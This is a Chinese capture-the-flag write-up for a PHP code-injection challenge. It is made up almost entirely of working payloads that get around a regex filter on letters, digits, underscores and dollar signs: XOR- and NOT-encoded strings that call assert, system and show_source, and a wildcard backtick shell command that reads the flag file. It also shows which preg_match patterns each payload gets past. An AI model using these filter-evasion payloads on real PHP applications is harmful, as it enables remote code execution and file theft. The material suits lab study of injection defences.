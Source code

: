 ![image-20210808140352943](images/5.png)

```
mess=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);&_=print_r(show_source('p.php'));
```

![image-20210808140549044](images/6.png)



```
思路一：绕过字符和数字
code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
1.成功 preg_match("/[A-Za-z0-9]+/",$code)
2.失败 preg_match("/[A-Za-z0-9_@]+/",$code)
3.失败 preg_match("/[A-Za-z0-9_$@]+/",$code)

思路二：绕过字符和数字+下划线（变量_和__）
code=${"`{{{"^"?<>/"}['+']();
1.成功 preg_match("/[A-Za-z0-9]+/",$code)
2.成功 preg_match("/[A-Za-z0-9_@]+/",$code)
3.失败 preg_match("/[A-Za-z0-9_$@]+/",$code)
- ?code=${"`{{{"^"?<>/"}['+']();&+=getFlag
- ?code=${"`{{{"^"?<>/"}['+']();&_=assert&__=print_r(`scandir`('/'))

思路三：绕过字符和数字+下划线（变量_和__）+美元符号（$）
1.均失败

------------------------------------------------------

【最终答案】
思路四：采用通配符绕过美元符号（$）
?code=?><?=`/???/??? /????`?>
?code=?%3E%3C?=`/???/???%20/????`?%3E

Cflag{h76ghpt2v2JiYEKzBQ5ysxu9b2Z3mN4A} 
```

取反绕过:

```
<?php
$a = "system";
$b= "cat /flllllaaaaaaggggggg";
echo urlencode(~$a);
echo "\n";
echo urlencode(~$b);
```

payload还要加上取反

```
?shell=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```
